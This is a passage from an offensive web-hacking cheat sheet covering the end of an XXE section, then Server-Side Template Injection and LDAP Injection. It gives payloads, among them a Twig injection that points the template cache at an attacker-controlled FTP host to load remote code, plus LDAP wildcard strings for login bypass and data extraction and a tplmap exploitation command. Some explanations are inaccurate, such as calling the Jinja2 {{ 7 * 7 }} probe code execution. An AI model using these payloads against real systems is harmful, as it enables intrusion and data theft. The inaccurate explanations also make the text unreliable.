 - **Burp Suite**:  
  - Use Burp to manually test for XXE vulnerabilities.  

---

### **5. Server-Side Template Injection (SSTI)**
SSTI occurs when user input is embedded into a server-side template, allowing code execution.

#### **Strongest Methods**
- **Jinja2 (Python)**:  
  ```python
  {{ 7 * 7 }}
  ```  
  - Executes Python code in Jinja2 templates.  

- **Twig (PHP)**:  
  ```twig
  {{ _self.env.setCache("ftp://attacker.com") }}
  ```  
  - Exploits Twig templates to execute PHP code.  

#### **Kali Tools**
- **tplmap**:  
  ```bash
  python tplmap.py -u "http://example.com/page?param=value"
  ```  
  - Automates SSTI detection and exploitation.  

- **Burp Suite**:  
  - Use Burp to manually test for SSTI vulnerabilities.  

---

### **6. LDAP Injection**
LDAP injection exploits vulnerabilities in LDAP queries to bypass authentication or extract data.

#### **Strongest Methods**
- **Authentication Bypass**:  
  ```ldap
  *)(&
  ```  
  - Bypasses LDAP authentication by injecting wildcards.  

- **Data Extraction**:  
  ```ldap
  *)(objectClass=*))(&(objectClass=void
  ```  
  - Extracts all objects from the LDAP directory.  

#### **Kali Tools**
- **JXplorer**:  
  - A graphical LDAP browser for testing LDAP queries.  

- **Burp Suite**:  
  - Use Burp to manually test for LDAP injection vulnerabilities.  

---